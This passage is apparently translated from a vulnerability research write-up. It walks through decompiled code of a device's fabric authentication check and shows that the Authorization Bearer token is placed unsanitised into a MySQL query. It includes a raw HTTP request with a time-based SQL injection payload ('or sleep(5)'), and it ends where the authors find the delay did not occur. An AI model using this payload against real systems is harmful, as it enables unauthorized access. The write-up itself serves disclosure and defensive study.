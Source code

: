   
好吧，现在是时候解释一下这个fabric_access_check函数到底起什么作用了。  
  
非常简单。具体步骤如下：  
- 在 [1] 处，Authorization从 HTTP 请求中提取标头并存储在v3变量中。  
  
- 在 [2] 处，__isoc23_sscanflibc 函数用于解析标头。它期望值以 （注意空格）开头Bearer，后跟最多 128 个字符——这些字符会被提取到 中v4。  
  
- 在 [3] 处，get_fabric_user_by_token使用 中存储的值进行调用v4。  
  
```
__int64 __fastcall fabric_access_check(__int64 a1){  __int64 v1; // rdi  __int64 v2; // rax  _OWORD v4[8]; // [rsp+0h] [rbp-A0h] BYREFchar v5; // [rsp+80h] [rbp-20h]unsigned __int64 v6; // [rsp+88h] [rbp-18h]  v1 = *(_QWORD *)(a1 + 248);  v6 = __readfsqword(0x28u);  v5 = 0;memset(v4, 0, sizeof(v4));  v3 = apr_table_get(v1, "Authorization"); // [1]if ( (unsignedint)__isoc23_sscanf(v2, "Bearer %128s", v4) != 1 ) // [2]    return0;  v5 = 0;if ( (unsignedint)fabric_user_db_init()    || (unsignedint)refresh_fabric_user()    || (unsignedint)get_fabric_user_by_token((constchar *)v4) ) // [3]  {    return0;  }else  {    return2 * (unsignedint)((unsignedint)update_fabric_user_expire_time_by_token((constchar *)v4) == 0);  }}
```  
  
  
快速提醒一下 -get_fabric_user_by_token这是我们易受攻击的功能，攻击者控制的功能char *a1最终直接嵌入到 MySQL 查询中。  
  
```
__int64 __fastcall get_fabric_user_by_token(constchar *a1){unsignedint v1; // ebx  __int128 v3; // [rsp+0h] [rbp-4B0h] BYREF  __int64 v4; // [rsp+10h] [rbp-4A0h]  _BYTE v5[16]; // [rsp+20h] [rbp-490h] BYREF  __int64 (__fastcall *v6)(_BYTE *); // [rsp+30h] [rbp-480h]  __int64 (__fastcall *v7)(_BYTE *, char *); // [rsp+38h] [rbp-478h]void (__fastcall *v8)(_BYTE *); // [rsp+58h] [rbp-458h]  __int64 (__fastcall *v9)(_BYTE *, __int128 *); // [rsp+60h] [rbp-450h]void (__fastcall *v10)(__int128 *); // [rsp+68h] [rbp-448h]char s[16]; // [rsp+80h] [rbp-430h] BYREF  _BYTE v12[1008]; // [rsp+90h] [rbp-420h] BYREFunsigned __int64 v13; // [rsp+488h] [rbp-28h]  v13 = __readfsqword(0x28u);  *(_OWORD *)s = 0;memset(v12, 0, sizeof(v12));if ( a1 && *a1 )  {    init_ml_db_obj((__int64)v5);    v1 = v6(v5);    if ( !v1 )    {          **// VULN      snprintf(s, 0x400u, "select id from fabric_user.user_table where token='%s'", a1);**            [..SNIP..]
```  
  
  
这意味着我们控制的输入——通过标题传递Authorization: Bearer %128s——最终会出现在以下 MySQL 查询中（使用示例值“watchTowr”（因为我们的想象力））：  
  
```
**select id from fabric_user.user_table where token='watchTowr'**
```  
  
  
现在，让我们来检验一下这个理论——我们将注入一个简单的SLEEP语句，看看它是否具有预期的效果。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrmt9ONMULm6p5Oa6xoZRfibIiaeyJw0cVerBnib2hMNbjbusTRdFnmofSw/640?wx_fmt=png&from=appmsg "")  
  
对于那些在家跟随的人来说，这是原始的 HTTP 请求：  
  
```
GET/api/fabric/device/status HTTP/1.1Host: 192.168.8.30Authorization: Bearer AAAAAA' or sleep(5)-- -'
```  
  
  
等一下——为什么响应时间不是 5 秒？这……不符合我们的预期。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrMUrZ63zCpSEUeXIWlcHXibFDXx7NWe9kCefADLia8m2q98sNXL5PiacEw/640?wx_fmt=png&from=appmsg "")  
  